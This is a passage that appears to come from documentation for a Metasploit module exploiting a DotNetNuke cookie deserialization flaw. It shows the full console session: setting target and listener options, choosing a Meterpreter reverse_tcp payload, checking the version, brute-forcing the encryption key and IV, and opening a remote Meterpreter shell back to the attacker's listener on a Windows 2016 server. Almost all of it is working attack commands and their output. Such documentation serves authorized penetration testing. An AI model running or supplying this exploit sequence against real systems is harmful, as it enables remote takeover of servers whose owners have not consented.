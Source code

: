   ```
  [+] Custom error page detected.
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49957) at 2019-07-10 14:02:09 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter >
  ```
### v9.1.1
  Here's showing the expected output
  
  ```
  msf5 > use exploit/windows/http/dnn_cookie_deserialization_rce 
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RHOSTS 192.168.31.131
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set RPORT 8084
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LHOST 192.168.31.128
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set LPORT 443
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_CODE Amop-0Et1fM_
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set VERIFICATION_PLAIN 0-2
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > set ENCRYPTED true
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > check

  [*] Trying to determine DNN Version...
  [*] Checking version at /Documentation/License.txt ...
  [!] DNN Version Found: v9.0.1 - v9.1.1 - May require ENCRYPTED
  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] 192.168.31.131:8084 - The target appears to be vulnerable.
  msf5 exploit(windows/http/dnn_cookie_deserialization_rce) > exploit

  [*] Checking for custom error page at: /__ ...
  [+] Custom error page detected.
  [*] Finding Key...
  [*] Searching at 648742.110 keys/s ...... 68.69% of keyspace complete.
  [+] KEY Found: B2ABB4BB
  [+] IV Found: 11A4D8BE
  [*] Total number of Keys tried: 29568463
  [*] Time to crack: 45.578 seconds
  [*] Started reverse TCP handler on 192.168.31.128:443 
  [*] Sending Exploit Payload to: /__ ...
  [*] Sending stage (179779 bytes) to 192.168.31.131
  [*] Meterpreter session 1 opened (192.168.31.128:443 -> 192.168.31.131:49970) at 2019-07-10 14:46:38 -0400

  meterpreter > sysinfo
  Computer        : SERVER_NAME
  OS              : Windows 2016 (Build 14393).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  ```